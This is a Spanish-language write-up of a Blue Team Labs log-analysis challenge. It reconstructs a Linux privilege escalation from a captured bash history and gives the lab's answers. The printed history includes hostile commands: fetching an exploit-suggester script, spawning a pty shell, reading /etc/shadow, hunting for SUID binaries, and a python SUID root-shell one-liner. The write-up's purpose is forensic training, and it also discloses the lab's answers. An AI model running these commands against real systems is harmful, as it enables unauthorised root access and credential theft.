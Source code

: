 # Write-Up — Log Analysis: Privilege Escalation

**Platform:** BTLO  
**Lab:** Log Analysis / Privilege Escalation  
**Category:** CTF Like  
**Date:** 2025-10-01  
**Difficulty:** Easy  
**OS:** Windows/Linux  
**Link:** https://blueteamlabs.online/home/challenge/log-analysis-privilege-escalation-65ffe8df12


---

## Scenario

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?


---

## Bash History Analysis

Descargamos el archivo que nos proporcionan con el historial de comandos ejecutados en el servidor.
<figure><img src="./assets/images/descarga.png" alt=""><figcaption></figcaption></figure>
<figure><img src="./assets/images/unzip.png" alt=""><figcaption></figcaption></figure>
A través de ellos podemos reconstruir las acciones del atacante:

```bash
cat BTLO\ Log\ Analysis\ -\ Privilege\ Escalation/bash_history
```
```bash
nano index.php
touch test.php
rm test.php
cd ../
ls
ls -la
rmdir bck/
rm -rf bck/
cd html/
cd uploads/
ls -la
pwd
id
whoami
ls
cd /root
cd /
ls -la
cd /home
ls
cd /home/daniel/
ls -la
su root
find / -name perl*
find / -name python*
python
python -c 'import pty; pty.spawn("/bin/sh")'
find / -name gcc*
find / -name cc
echo os.system('/bin/bash')
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
ps -ef | grep root
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
ls -aRl /etc/| awk '$1 ~ /^.*r.*/'
crontab -l
ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
cat /etc/resolv.conf
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
sudo -l
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bashrc
cat ~/.profile
cat ~/.ssh/authorized_keys
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null
/bin/bash -i
cat /etc/fstab
cat /etc/passwd
cat /etc/shadow
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```


---

## Challenge Questions — Answers & Justification

### 1) What user (other than `root`) is present on the server?

El atacante accede al directorio /home/daniel/ . Esto nos revela la existencia de otro usuario en el sistema.

**Respuesta:** daniel


---

### 2) Which script did the attacker attempt to download?

Observamos el uso de wget para descargar un script.

**Respuesta:** linux-exploit-suggester.sh


---

### 3) Which packet analyzer did the attacker attempt to use?

En el historial aparece `tcpdump`, que es una herramienta para capturar paquetes de red.

**Respuesta:** tcpdump


---

### 4) Which file extension did the attacker use to bypass the upload filter?

El atacante elimina un archivo con extensión .phtml, lo que indica que fue usado para evadir el filtro de subida de archivos PHP.

**Respuesta:** .phtml


---

### 5) What misconfiguration in `python` was exploited to gain root?

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Este comando intenta ejecutar una shell con como root usando el argumento -p, lo cual solo es posible si el binario de Python tiene el bit SUID activado. 
Esta información la he encontrado aquí: https://gtfobins.github.io/gtfobins/gdb/#suid

**Respuesta:** SUID
